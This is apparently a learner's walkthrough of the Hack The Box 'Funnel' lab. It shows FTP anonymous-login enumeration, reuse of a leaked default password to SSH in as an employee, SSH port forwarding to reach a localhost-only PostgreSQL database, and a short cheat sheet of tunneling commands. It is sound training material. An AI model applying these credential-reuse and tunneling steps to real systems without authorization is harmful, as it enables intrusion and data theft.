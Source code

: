 ## Lab Title: Funnel
- Date: 2025-08-06
- Duration: ~30 minutes

### Platform: HTB – Starting Point > Tier 1

### 1. Scenario Summary
- Learn FTP enumeration >> Further SSH Local Port Forwarding Tunneling >> Dynamic Tunneling >> Postgresqls

### 2. Findings
- Nmap          >> Enumeration
    - `nmap $ip -Pn -T5 --top-ports 10000`Two ports: 21,22 >> open
    - `nmap $ip -sV -Pn -A -p T:21` >> vsFTPd 3.0.3 >> `mail_backup` dir is allowed

- FTP           >> Leverage
    - Anonymous login `ftp $ip` >> then `anonymous` & `blank password`
    - Two files found on `mail_backup` dir >> `password_policy.pdf` (which includes default password: `funnel123#!#`)
    - Second file `welcome_28112022` >> includes email addresses of employees & welcome message
    - Email domain: `funnel.htb` >> employee names: `optimus, albert, andreas, christine, maria`
    - Apparently, `christine` has not changed the default password

- Exploit:
    - I know have full credentials of user with password >> I see that ssh is open
    - `ssh christine@$ip` >> logged in
    - `ss -tl` >> ss to investigate sockets >> `-t` TCP Sockets `-l` Listening sockets
    - Port: `5432` >> Postgresql

- POSTGRESQL Connection
    - After signing in via ssh >> I see that postgresql is running only on localhost
    - Then, I did local port forwarding via ssh >> from my machine now I direct my psql queries to victim machine
    - `ssh -L 15432:localhost:5432 christine@$ip`
    - `netstat -tuln` >> to confirm that my port 15432 is listening
    - After this, now I just run `psql -h localhost -p 15432 -U christine`
    - Inside >> postgresql server
        - `\l` >> to see databases
        - `\c db_name` >> to move to db
        - `\dt` >> to see tables
        - `select * from flag;` >> to get values from certain table

- SSH Tunneling:
    - `ssh -L port_local:localhost:port_target user@server` >> `-L` >> local port forward tunneling; client connects to server
    - `ssh -R [port_serveur]:localhost:[port_client] user@serveur` >> remote port forward tunneling; here server connects to client
    - `ssh -D port user@server` >> dynamic tunneling from local machine

### 3. Idea
- Start with FTP >> extract data >> go with ssh >> with full user credentials >> check postgresql >>
- Found that service is locally running on 5432 >> do then `ssh local port forwarding tunneling` from attacker machine
- Connect via tunneling, then execute `postgresql` research to get the flag
